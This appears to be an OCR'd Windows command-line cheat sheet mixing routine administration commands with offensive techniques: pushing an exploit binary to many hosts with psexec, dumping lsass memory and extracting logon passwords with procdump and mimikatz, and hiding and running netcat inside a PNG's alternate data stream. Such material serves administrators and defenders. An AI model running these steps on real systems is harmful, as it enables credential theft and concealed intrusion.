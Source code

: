 C:\> psexec @$ips.txt -s -u adminuser -p pass -f -c \exploits\mp.exe
Create n/w share called Apps, with read access & limit to 10 conns

C:\> net share Apps=C:\Apps /G:everyone,READ /US:10
List all the drives under My Computer using fsutil

C:\> fsutil.exe fsinfo drives
Troubleshoot n/w packet drops with router statistics using pathping

C:\> pathping -n http://www.google.com
List unsigned dlls for a specific process.

For system wide list, remove the process name

C:\> listdlls -u explorer.exe
Obtain a list of Windows XP computers on the domain using PS

Server2008

PS C:\> Get-ADComputer -filter {OperatingSystem -like "*XP*"}
Open the System Properties window, with the Advanced tab selected

Change the number for different tabs

C:\> control sysdm.cpl,,3
Using the dir command to find Alternate Data Streams

C:\> dir /R | find ":$D"
Using streams sysinternals (shows path):

C:\> streams -s .
Use procdump to obtain the lsass process memory.

Use mimikatz minidump to get passwords

C:\> procdump -accepteula -ma lsass.exe mini.dmp
Run mimikatz in minidump mode & use mini.dmp from procdump

mimikatz # sekurlsa::minidump mini.dmp
mimikatz # sekurlsa::logonPasswords
Get list of startup programs using wmic

C:\> wmic startup list full
Add a binary to an Alternate Data Stream

C:\> type c:\tools\nc.exe > c:\nice.png:nc.exe
Execute it (XP/2K3):

C:\> start c:\nice.png:nc.exe
Execute a binary Alternate Data Stream Win 7/2008 using wmic

C:\> wmic process call create C:\nice.png:nc.exe
Show config & state info for Network Access Protection enabled client

https://technet.microsoft.com/en-us/library/cc730902(v=ws.10).aspx

C:\> netsh nap client show configuration
Get computer system information, including domain name and memory, using wmic

C:\> wmic computersystem list /format:csv
Use the Package Manager in Windows to install the Telnet client on Windows Vista & higher
